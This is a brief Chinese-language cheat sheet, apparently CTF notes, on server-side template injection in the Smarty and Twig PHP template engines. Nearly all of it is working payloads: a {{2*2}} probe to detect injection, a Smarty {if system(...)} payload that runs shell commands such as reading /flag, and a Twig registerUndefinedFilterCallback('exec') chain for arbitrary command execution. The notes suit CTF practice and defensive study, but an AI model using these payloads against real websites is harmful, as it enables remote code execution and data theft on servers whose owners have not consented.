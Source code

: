 # SSTI_injection

---

**SSTI模板注入**

```
smarty模板引擎
twig模板引擎
```

**判断注入**

```
参数：user=1                              回显：1
参数：user={{2*2}}                        回显：4
```

**smarty模板引擎**

```
参数：user={if phpinfo()}{/if}            回显：phpinfo页面
参数：user={if system('cat /flag')}{/if}  回显：执行命令cat /flag
```

**twig模板引擎**

```
参数：user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("命令")}
回显：执行命令cat /flag
```

